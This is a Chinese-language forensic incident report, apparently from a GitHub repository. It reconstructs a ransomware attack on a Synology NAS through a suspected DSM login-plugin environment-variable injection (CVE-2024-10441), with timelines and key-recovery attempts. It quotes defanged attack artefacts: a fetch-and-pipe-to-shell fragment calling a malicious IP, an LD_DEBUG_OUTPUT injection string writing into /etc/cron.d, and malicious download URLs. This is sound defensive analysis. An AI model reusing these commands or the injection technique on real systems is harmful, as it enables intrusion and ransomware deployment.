

# 攻击来源、执行链与完整取证时间线

**2026-10-30 后续更新：** 已取得外部完整分析样本，核心字节与凌晨保留件一致，且其首块与 NAS 残片精确匹配；NAS 当时的完整可执行文件及全文件摘要仍未恢复。下文保留原检查点，新增事实见[投递节点与样本复核](payload-node-review-20261030.md)。

**本机最有依据的来源/投递节点是 `46[.]8[.]78[.]122`。最符合现有证据的入口，是经公开转发的 DSM Web 管理登录流程触发 CVE-2024-10441 一类插件环境变量注入，再借临时 cron 执行下载链。** 节点关联证据较强；完整 HTTP 利用请求、完整 cron 正文、真实启动命令和本机加密器本体仍未恢复，以下逐段区分观察与推断。

本报告汇总 10 月 29 日至 30 日的技术取证过程，不纳入业务资料恢复细节。内存保全方法和最终回执见[本地内存封存报告](memory-preservation-20261030.md)。

## 从哪里进入：同一节点的三组证据

| 位置 | 可公开事实 | 支持的结论 |
| --- | --- | --- |
| 所有者自建中继的管理代理日志 | `05:01:58.025`：`46[.]8[.]78[.]122:48388`；`05:01:59.110`：同址源端口 `48398` | 两次连接对应同一管理代理和本机客户端实例，直接来源节点可识别 |
| 与保存的 crond 地址空间关联的下载后缀 | `l -s hxxp://46[.]8[.]78[.]122/xdy5[.]sh\|sh` | 同一地址还是脚本目标；前缀缺失，未补写成一条完整 curl 命令 |
| 已释放 ext4 外部属性块 164366 | `user.xdg.origin.url = hxxp://46[.]8[.]78[.]122/xdy5[.]6xc?x86_64` | 精确来源属性与另一独立受害者的 [Issue #6](https://github.com/soimy/c3rb3r-rescue/issues/6#issuecomment-6495836088) 相同 |

这里能识别的是与事件高可信相关的连接/投递节点，尚不能把它认定为攻击者自然人的终端或真实地理位置。原有 FRP 服务由所有者长期运行，承担转发角色；没有证据将它本身认定为恶意植入。其他同期扫描和认证失败来源没有被混入实施者名单。

源地址与设备入口之间的路由可关联到 **管理接口代理 → NAS 的 DSM Web 服务**。NAS 认证日志出现环回来源符合本机转发结构，环回地址本身不能提供外部来源；外部来源关联来自中继日志和下载/属性证据的组合。

## 为什么重点指向登录插件环境变量注入

首次保存的 RAM 文件 `ram-08-100000000.bin`，文件内偏移 **4,993,348,294**，含连续残片：

```text
LD_DEBUG_OUTPUT=/etc/cron.d/synotgzz
ESCAPE=PLUGIN_VALUE_START
NOP]. [0x1D00 user_db_get.c:36]
```

附近存在 `synoscgi_SYNO.API.Auth_7_login[18507]` 片段，日期前缀不完整，不能把该 PID 直接指定为 05:02:00 那条请求。相同 `synotgzz` 前缀出现在 cron 提及、清理调用和删除目录项中。

本机为 **DSM 7.2.1-69057 Update 1**。厂商 [Synology-SA-24:20](https://www.synology.com/en-global/security/advisory/Synology_SA_24_20) 对这一分支列出的修复版本为 Update 6；本机版本处于受影响范围。

[Ryan Emmons / Rapid7 的原始研究](https://assets.contentstack.io/v3/assets/blte4f029e766e6b253/bltad0709de42b54e82/689604359f008cdd02f69917/disguise-delimit-whitepaper.pdf)解释了登录插件中的环境变量控制，动态加载器调试输出附加 `.PID` 文件名，以及该写入能力进入 cron 的机制；此路径不要求先通过正常密码认证。公开机制与本机残片及任务命名吻合，构成强支持；一次登录失败记录本身仍不能证明其中携带了利用载荷。

## 执行流程图

实线表示该边上的具体事实已有记录，虚线表示尚未闭合的因果关系。节点名和路径出现不等于整条链已逐进程证实。



下载后缀经严格 Base64 解码得到，原始明文字节 SHA-256 为 `f8c61f8717b49b6713b268b59ec6cae2ff21912d9b022e22ae1e8a59175a638e`；展示中的 URL 已失活。前缀残缺，没有恢复整个命令或声称实际收到下载响应。

后续修正了本机 4.4.302 的交换 PTE 解释，通过 **zsmalloc 句柄 → zram0 逻辑槽 54600 → PT/PD/PUD/PGD → mm/task 对象**，将该页关联到保存的 `crond`，PID/TGID **13917**。独立逻辑交换副本和解压页的 SHA-256 均为 `04c5e00e5b9a6a39d2bb6afab8dd79075bda6e7b47ac4192574c5d72ad6bb60d`。这加强了命令残片的进程归属，仍不单独证明载荷执行成功。

`libgld` 删除目录项指向 inode **43222**，但 247 个去重历史版本均未恢复原始可执行 inode。孤立属性块也没有找到可靠的历史 inode 指针。因而实际加密器 PID、完整样本摘要、该属性是否属于 `libgld`、精确自毁时间都保持未确认。

## 攻击与故障时间线

以下均为 **2026-10-29、UTC+8**。云端和 NAS 时钟未独立校准；跨主机时间差用于日志对齐，不宣称真实物理时间精确到毫秒。

| 时间 | 观察或推断 | 证据含义 |
| --- | --- | --- |
| 05:01:58.025 | 节点 `46[.]8[.]78[.]122:48388` 连入管理代理 | 中继应用日志直接记录 |
| 05:01:59.110 | 同址源端口 `48398` 再次连接 | 同一代理与客户端实例 |
| 05:02:00 | DSM Auth 登录流程认证失败 | 原日志可读，未取得原始请求正文 |
| 约 05:02 至 05:03 前 | 推测发生该轮环境变量注入与临时任务落地 | 由连接、登录残片、05:03 的任务痕迹推导；不是恢复的原始创建时间 |
| 05:03:01 | crond 提及 `/etc/cron.d/synotgzz.18887` | 原行只写 Oct 29，年份按本案上下文推定；未证明完整命令执行 |
| 05:03:19 | uid/euid 0 的 `rm[22033]`，参数 `-f` 和五个 cron 路径 | `.18883`、`.18885`、`.18886`、`.18887`、`.18891`；目录项残留互证，不含逐项返回码 |
| 05:09:45.916 | `/tmp/log.0` mtime | 与加密开始标记相符，未直接观测进程创建 |
| 05:09:45.923 | 一份 `read-me3.txt` mtime | 与开始标记相邻 |
| 05:10:20 | uid/euid 0 的 `rm[23306]` 指向 `/bin/l0ck.enc` | 内存对象另有关联 `crond.service`，不是 `libgld` 的删除时间 |
| 05:21:08 | Jellyfin core-dump 记录 | 应用崩溃，单条记录不足以确定原因 |
| 06:25:25 | 容器日志开始出现 `file is not a database` | 日志数据库相关错误，未据此归因所有数据库损坏 |
| 06:55:48 | lighttpd 在 `mod_cgi.so.L0CK3D` 中 segfault | 同段有其他 Web 服务故障 |
| 06:56:56 | 日志中心启动脚本报 `syslog_main.sh` 不存在 | 缺失路径已影响启动 |
| 06:56:58 起 | Log Center syslog-ng 启动失败并重试 | 反复重试不是不同的入侵次数 |
| 07:49:56–07:49:57 | 自动生成的 syslog 配置时间更新 | 内容有生成器标记；不能直接写成攻击者主动篡改 |
| 09:30:32 | QQ 在 `liblinux_compat.so.L0CK3D` 中 segfault | 另一组受影响库与故障关联 |
| 09:53:23 | 容器 Python 进程 core dump | 未识别为加密器 |
| 10:24:30.003 | `/tmp/log.1` mtime | 与完成标记相符，未证明实际退出方式 |

按现有记录计算：首次关联管理连接到登录失败约 **1.975 秒**，到 cron 提及约 **62.975 秒**，到开始标记约 **7 分 47.891 秒**；cron 提及到清理调用相隔 **18 秒**；开始标记到 `/bin/l0ck.enc` 清理为 **34.084 秒**；开始与完成标记相隔 **5 小时 14 分 44.087 秒**。

05:03:19 的 cron 清理调用到 05:09:45.916 的开始标记之间，还有约 **6 分 26.916 秒**。该段没有完整下载与启动日志，具体步骤及耗时未还原。

本机没有补出加密器 OOM 记录，不能套用另一案例的 OOM 原因，也不能因为有完成标记就认定正常退出。首次排查未观察到活动加密器，实际退出时刻与方式仍未知。

## 较早驻留线索：另列，尚未与本轮归为同一活动

已保存的隐藏下载脚本 SHA-256 为 `5dc595d955cc5b268f7d40e36eb6ed22005fee2efdc64eab5029df5a71fd7d0f`。静态内容包含两处外部地址：

| 地址或字段 | 证据说明 |
| --- | --- |
| `hxxp://zuoye[.]free[.]fr/files/synology-10441[.]png` | 脚本自身下载目标 |
| `hxxp://zuoye[.]free[.]fr/files/000119[.]png` | 缺失二进制的下载目标；未据此确认其家族 |
| `/etc/rc.subr` 与 cron 引用 | 存在脚本持久化调用；没有把缺少用户字段的 cron 行当作成功周期运行的证明 |
| 2026-01-09 12:20:59 | 脚本 mtime |
| 2026-01-14 20:57:02 | 启动引用相关文件的时间 |
| 2026-10-03 11:20:16 | 旧 crontab 时间 |

这些是文件时间和脚本静态行为，未独立认证为真实首次入侵时间。该驻留脚本、上述下载站和 10 月 29 日加密之间，没有闭合的执行链或同一操作者证据。

## 取证、核验与公开记录的后续过程

| 时间（UTC+8） | 已实施动作和结果 |
| --- | --- |
| 10 月 29 日 14:26:29 | 首次 RAM 采集开始记录，9 个映射合计 8,479,907,840 字节；另保存交换副本 |
| 14:35:29.441798+08:00 | 保留已知下载脚本后改名隔离；此时间来自隔离文件的 ctime |
| 14:46:36 起 | 驻留进程、网络、启动引用和日志盘点；未取得活动加密器 |
| 17:07:59–17:08:03 | 停止当时的旧 FRP 客户端，属于取证后的通道处理；其合法属性未改变 |
| 17:19:42 | 在保留证据后移除已确认的 cron/启动调用；后续 `rc.subr` 与本机默认副本一致 |
| 18:37:12–18:40:54 | 顺序采集根系统分区，18:41:44 完成本地摘要核验；并非全盘或原子镜像 |
| 截至 21:28 | 来源节点、交换解码与 crond 地址空间关联补充；修正早期交换 PTE 解释及重复页覆盖计数 |
| 21:40–22:49 | 格式、SSE、DRBG/SHA、不连续 AES、额外页边界和逐字节 ChaCha8 等已实现检查均未取得有效密钥 |
| 23:11:22 | ext4 来源属性、inode 与晚间验证补充推送到本仓库，提交 `7132de6` |
| 23:22:54 | 向上游发布 [Issue #10](https://github.com/soimy/c3rb3r-rescue/issues/10)，对照其他案例提出研究问题 |
| 23:36 | GPR、TAR 后段及连接页表补查完成，仍未命中，见下节 |
| 23:57 | 引导和磁盘时间窗补查结束，所查启动结构未见本轮破坏证据；日志尾追加明文另存 |
| 10 月 30 日 00:02:26 | 引导与磁盘时间窗报告推送，提交 `88f4ccc` |
| 10 月 30 日 00:15:12–00:28:56 | NAS 本地第二次内存与交换保全及回读校验 |
| 00:29:42 | 新证据文件及目录只读封存，原服务仍运行 |

按显示时间，完成标记到首次 RAM 采集约隔 **4 小时 2 分钟**。这不是已经证实的进程退出后时长；首次排查没发现存活加密器，也不能据此证明所有历史密钥都已被清除。已有 UPX 首块残片未确认归属，仍不足以比对本机完整加密器。

第一次内存已经保存于分析端；10 月 30 日是另一轮活体采集，不能合并成一次一致快照。已有材料没有完整加密器或有效密钥；目录中存在大量候选值也不构成解密成果。

技术报告已公开在本仓库；对上游的 [Issue #10](https://github.com/soimy/c3rb3r-rescue/issues/10) 列出本机发现、跨案例差异及三个研究问题。相同来源端点、不同 footer marker 能提供关联线索，未证明跨受害者密钥复用或同一精确二进制批次。

## 23:36 已完成的补查与实际边界

以下均使用此前保留的副本，不是对 10 月 30 日新备份的验证：

| 方法 | 实际完成范围 | 结果 |
| --- | --- | --- |
| TAR 后段去过滤扫描 | 22 份输入，ChaCha8 四种布局、counter 4/5；564 个任务，67,489,880,036 次位置/布局尝试 | 0 有效头；覆盖审计通过 |
| 普通寄存器形状 | 964 组不同 GPR 集合，来源 1,011 处逐项核对 | 保存区形状没有归属加密器的证明 |
| GPR 组合初筛 | 145,853,180 次 AES 假设尝试，仅对 8 个分时文件尾；另有文件材料格式验证 | 0 命中；没有宣称全部尝试都覆盖 24,120 个尾部 |
| GPR 优先子集逆展开 | 2,332,148 个不同候选值，对 24,120 个尾部，56,251,409,760 次筛选 | 0 命中 |
| 进程/页表关联 | 125 个 PGD，得到 14 组新增跨页桥，另取 1,293 份有界上下文 | 新桥全部独立校验；没有将普通进程名当作恶意证明 |
| 上述连接上下文与边界 | 本集合 349,849 个 AES 值，8,438,357,880 次文件尾筛选 | 0 命中，格式及 TAR 复核也未得到有效文件头 |

分析环境约 23:01 曾中断，未落盘测试产物被保留并重建验证，增加了落盘检查；该中断没有被计为新增扫描，NAS 没有因此重启。各轮候选集合与数据表示存在重叠，不合计为全局不同密钥数。

全范围 ChaCha12/20、所有未知编码与布局、部分更复杂页表状态以及未采集的更早内存仍未覆盖。新副本已经固定，但尚未在本次发布中完成新的密钥搜索。

机器可读事件、因果边与覆盖摘要见 [attack-reconstruction-20261030.json](../evidence/attack-reconstruction-20261030.json)。磁盘定位、明文追加日志和引导检查见[引导与时间窗报告](boot-and-disk-window-20261029.md)，inode 和来源属性见 [ext4 报告](ext4-ioc-follow-up-20261029.md)。
